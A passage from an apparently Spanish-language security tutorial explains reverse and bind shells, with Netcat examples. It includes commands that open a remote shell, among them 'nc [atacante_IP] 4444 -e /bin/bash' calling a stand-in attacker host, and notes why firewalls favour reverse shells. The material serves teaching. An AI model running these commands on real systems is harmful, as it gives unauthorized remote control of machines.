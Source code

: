 **<u>Ejemplo**</u>

Netcat es una herramienta que soporta múltiples sistemas oprativos, permite lecturas y escrituras a través de la red. 

El atacante utiliza Netcat para escuchar en el puerto 4444:

```bash
nc -lvp 4444
```


A continuación, el objetivo o víctima ejecuta un *payload* para conectarse de nuevo a la máquina del atacante:
```bash
nc [atacante_IP] 4444 -e /bin/bash
```

Esta configuración permite al atacante controlar el intérprete de comandos de la víctima a través de la red.


---

### Bind shell

- <u>Definición:</u> En una bind shell, la máquina objetivo escucha en un puerto específico, esperando una conexión entrante del atacante. Una vez que el atacante se conecta, obtiene acceso remoto a la línea de comandos.
 
- <u>Cómo funciona:</u> Con una bind shell la **máquina objetivo se convierte en el oyente** y abre un puerto de red, vinculando un shell a ese puerto. El atacante se conecta a este puerto abierto para obtener acceso.
 
- <u>Limitaciones de Bind Shells:</u> Los Bind Shells son más difíciles de usar en entornos con cortafuegos restrictivos o NAT porque requieren que la máquina de destino acepte conexiones entrantes en un puerto específico.

**<u>Ejemplo**</u>

La máquina destino utiliza Netcat para configurar un bind shell:

```bash
nc -lvp 4444 -e /bin/bash
```
A continuación, el atacante se conecta a la IP y al puerto de la máquina objetivo:
```bash
nc [IP_objetivo] 4444
```

---

**Reverse shells VS Bind shells**

- Las **Reverse Shells** se prefieren en entornos seguros porque inician conexiones salientes, a menudo permitidas por cortafuegos.
- Las **Bind Shells** requieren un puerto de entrada abierto, que a menudo es bloqueado por los cortafuegos, haciéndolos más difíciles de ejecutar en las redes modernas.


### **Listeners**
